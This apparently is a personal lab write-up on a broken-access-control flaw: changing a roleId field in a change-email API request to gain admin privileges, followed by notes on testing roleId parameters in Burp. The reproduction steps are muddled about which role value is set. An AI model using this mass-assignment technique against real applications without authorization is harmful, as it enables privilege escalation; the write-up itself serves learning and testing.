

Steps to reproduce:
Crawl the website looking for something like
{
  "userId": 123,
  "roleId": 2
}

Captured the login request
Captured the item request
Then captured the change email request and found

`{`
  `"username": "wiener",`
  `"email": "wienr@abc.com",`
  `"apikey": "6HzbZcjO8pi0p6f6SAZqZJSGQK067MA4",`
  `"roleid": 2`
`}`

in response and knew immediately i had to change the `roleid:1` to `roleid:2`

`{`
`"email":"wienr@abc.com",`
`"roleid":2`
`}`


#### Learnings:

A **Role ID** in an HTTP request is usually an identifier that tells the server **which role/permission set a user or resource is associated with**.

For example, you might see:

```http
POST /api/users/update
Content-Type: application/json
Authorization: Bearer eyJ...

{
  "userId": 123,
  "roleId": 2
}
```

Here:

```text
userId = 123
roleId = 2
```

The server might have a database like:

|roleId|Role|
|--:|---|
|1|Admin|
|2|User|
|3|Manager|

So `roleId: 2` could mean the user has the **User** role.

### Why is this important in API pentesting?

Since you're focusing on **Broken Access Control**, `roleId` is an interesting parameter to test.

Suppose your normal request is:

```http
PUT /api/users/123
```

```json
{
  "name": "Shubham",
  "roleId": 2
}
```

You might investigate what happens if you change:

```json
"roleId": 2
```

to:

```json
"roleId": 1
```

If `1` represents Admin and the server accepts the change **without properly checking whether you're authorized to assign the Admin role**, that could indicate a broken access-control / mass-assignment issue.

### But remember

A `roleId` is **not inherently a security vulnerability**.

The important question is:

> **Does the server properly authorize the action associated with that role ID?**

Also, don't assume `roleId=1` is always Admin. The meaning is application-specific.

In Burp, when you see something like:

```http
roleId=3
```

or:

```json
{
    "roleId": 3
}
```

think:

**"This might be controlling a user's privilege level. I should understand what it represents and whether the server enforces authorization."**